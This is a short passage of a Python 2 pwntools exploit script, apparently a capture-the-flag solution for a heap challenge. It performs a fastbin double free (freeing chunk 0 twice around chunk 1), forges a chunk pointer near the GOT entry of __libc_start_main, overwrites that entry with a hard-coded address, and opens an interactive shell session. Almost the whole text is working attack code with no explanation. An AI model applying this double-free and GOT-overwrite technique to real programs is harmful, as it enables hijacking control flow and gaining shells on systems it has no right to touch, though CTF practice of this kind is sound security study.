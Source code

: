 ```
    p.sendlineafter(":", str(index))

size = 0x30
add(0, size, "a" + "\n")
add(1, size, "b" + "\n")
add(2, size, "c" + "\n")
add(3, size, "a" + "\n")
add(4, size, "a" + "\n")

delete(3)
delete(0)
delete(1)
delete(0)

sys_addr = 0x400946
print hex(elf.got['__libc_start_main'])
add(0, size, p64(elf.got['__libc_start_main'] - 0x1e) + "\n")
add(1, size, "b" + "\n")
if debug:
    attach(p)
add(5, size, "d" * 3 + p64(sys_addr) + "\n")
add(6, size, "a" * 0xe + p64(sys_addr) + p64(sys_addr)[0:7] + "\n")
p.interactive()
```

